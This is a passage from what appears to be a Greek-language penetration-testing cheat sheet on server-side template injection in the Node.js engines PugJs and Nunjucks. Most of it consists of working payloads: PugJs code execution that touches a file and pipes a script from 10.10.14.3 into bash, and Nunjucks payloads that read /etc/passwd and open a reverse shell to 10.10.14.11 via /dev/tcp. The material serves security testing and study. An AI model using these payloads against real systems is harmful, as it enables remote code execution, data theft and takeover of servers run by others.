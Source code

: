 - [https://appcheck-ng.com/template-injection-jsrender-jsviews/](https://appcheck-ng.com/template-injection-jsrender-jsviews/)

### PugJs (NodeJS)

- `#{7*7} = 49`
- `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('touch /tmp/pwned.txt')}()}`
- `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl 10.10.14.3:8001/s.sh | bash')}()}`

**Παράδειγμα απόδοσης από τον διακομιστή**
```javascript
var pugjs = require("pug")
home = pugjs.render(injected_page)
```
**Περισσότερες πληροφορίες**

- [https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/](https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/)

### NUNJUCKS (NodeJS) <a href="#nunjucks" id="nunjucks"></a>

- \{{7\*7\}} = 49
- \{{foo\}} = Χωρίς έξοδο
- \#{7\*7} = #{7\*7}
- \{{console.log(1)\}} = Σφάλμα
```javascript
{
{
range.constructor(
"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')"
)()
}
}
{
{
range.constructor(
"return global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.10.14.11/6767 0>&1\"')"
)()
}
}
```
**Περισσότερες πληροφορίες**

- [http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine](http://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)

### Άλλο NodeJS

<figure><img src="../../images/image (1) (1).png" alt=""><figcaption><p><a href="https://miro.medium.com/v2/resize:fit:640/format:webp/1*J4gQBzN8Gbj0CkgSLLhigQ.jpeg">https://miro.medium.com/v2/resize:fit:640/format:webp/1*J4gQBzN8Gbj0CkgSLLhigQ.jpeg</a></p></figcaption></figure>
